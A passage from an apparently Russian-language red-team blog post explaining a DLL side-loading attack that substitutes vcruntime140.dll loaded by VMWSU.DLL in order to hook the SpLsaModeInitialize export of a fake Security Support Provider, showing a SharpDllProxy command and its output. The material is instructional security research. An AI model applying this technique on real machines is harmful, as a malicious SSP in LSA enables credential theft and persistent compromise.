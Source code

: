 [![vmwsu-dll-imports.png](/assets/images/from-dll-side-load-to-malicious-ssp/vmwsu-dll-imports.png)](/assets/images/from-dll-side-load-to-malicious-ssp/vmwsu-dll-imports.png)
{:.center-image}

Как видишь, эта библиотека, скорее всего, будет пытаться подтянуть функции `vcruntime140.dll`, которые не входят в набор обязательных компонентов ОС.

# Подделка SSP и хукинг SpLsaModeInitialize

Проведем атаку DLL Side-Loading, нацеленную на подмену библиотеки `vcruntime140.dll` при загрузке `VMWSU.DLL`. Чтобы переопределить поведение экспорта `SpLsaModeInitialize`, мы воспользуемся классической техникой API-хукина.

Для начала соберем все экспорты `vcruntime140.dll` с помощью [SharpDllProxy](https://github.com/Flangvik/SharpDllProxy), чтобы наша поддельная библиотека `VMWSU.DLL` проксировала вызовы `vcruntime140.dll` к соответствующей легитимной библиотеке:

```terminal?prompt=>
Cmd > .\SharpDllProxy.exe --dll C:\windows\system32\vcruntime140.dll 
[+] Reading exports from C:\windows\system32\vcruntime140.dll... 
[+] Redirected 71 function calls from vcruntime140.dll to tmp50CA.dll 
[+] Exporting DLL C source to C:\Repos\SharpDllProxy\SharpDllProxy\bin\Debug\netcoreapp3.1\output_vcruntime140\vcruntime140_pragma.c
```


[//]: # (2023-09-27)